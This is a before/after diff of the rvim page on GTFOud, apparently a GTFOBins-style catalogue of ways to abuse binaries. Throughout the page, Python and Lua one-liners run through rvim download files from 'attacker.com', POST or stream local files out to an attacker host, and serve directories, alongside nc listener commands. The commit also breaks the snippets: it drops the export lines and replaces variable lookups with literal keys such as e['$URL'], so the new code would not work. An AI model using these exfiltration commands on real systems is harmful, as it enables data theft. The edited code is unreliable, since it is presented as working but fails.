

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/rvim.md, in a window 1280 px wide and 1400 px high, cut to the strip 339-1400 px from the top of the window. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update rvim.md

```diff
--- a/_gtfoud/rvim.md
+++ b/_gtfoud/rvim.md
@@ -3,54 +3,45 @@
   file-download:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
       code: |
-        export URL=http://attacker.com/file_to_get
-        export LFILE=file_to_save
         rvim -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r
         else: import urllib as r
-        r.urlretrieve(e["URL"], e["LFILE"])
+        r.urlretrieve(e["$URL"], e["$LFILE"])
         vim.command(":q!")'
-    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
+    - description: Fetch a remote file via TCP. Run `nc target.com 4444 < "file_to_send"` on the attacker box to send the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=12345
-        export LFILE=file_to_save
         rvim -c ':lua local k=require("socket");
-          local s=assert(k.bind("*",os.getenv("LPORT")));
+          local s=assert(k.bind("*",os.getenv("$LPORT")));
           local c=s:accept();
           local d,x=c:receive("*a");
           c:close();
-          local f=io.open(os.getenv("LFILE"), "wb");
+          local f=io.open(os.getenv("$LFILE"), "wb");
           f:write(d);
           io.close(f);'
-  server:
+  file-upload:
     - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
       code: |
-        export URL=http://attacker.com/
-        export LFILE=file_to_send
         rvim -c ':py import vim,sys; from os import environ as e
         if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
         else: import urllib as u, urllib2 as r
-        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
+        r.urlopen(e["$URL"], bytes(u.urlencode({"d":open(e["$LFILE"]).read()}).encode()))
         vim.command(":q!")'
-    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+    - description: Send a local file via TCP. Run `nc -l -p 4444 > "file_to_save"` on the attacker box to collect the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
       code: |
-        export LPORT=8888
-        rvim -c ':py import vim,sys; from os import environ as e
-        if sys.version_info.major == 3: import http.server as s, socketserver as ss
-        else: import SimpleHTTPServer as s, SocketServer as ss
-        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
-        vim.command(":q!")'
-    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rvim` is compiled with Lua support and that `lua-socket` is installed.
-      code: |
-        export RHOST=attacker.com
-        export RPORT=12345
-        export LFILE=file_to_send
-        rvim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
+        rvim -c ':lua local f=io.open(os.getenv("$LFILE"), 'rb')
           local d=f:read("*a")
           io.close(f);
           local s=require("socket");
           local t=assert(s.tcp());
-          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
+          t:connect(os.getenv("$RHOST"),os.getenv("$RPORT"));
           t:send(d);
           t:close();'
+  server:
+    - description: This requires that `rvim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
+      code: |
+        rvim -c ':py import vim,sys; from os import environ as e
+        if sys.version_info.major == 3: import http.server as s, socketserver as ss
+        else: import SimpleHTTPServer as s, SocketServer as ss
+        ss.TCPServer(("", int(e["$LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
+        vim.command(":q!")'
 ---
```
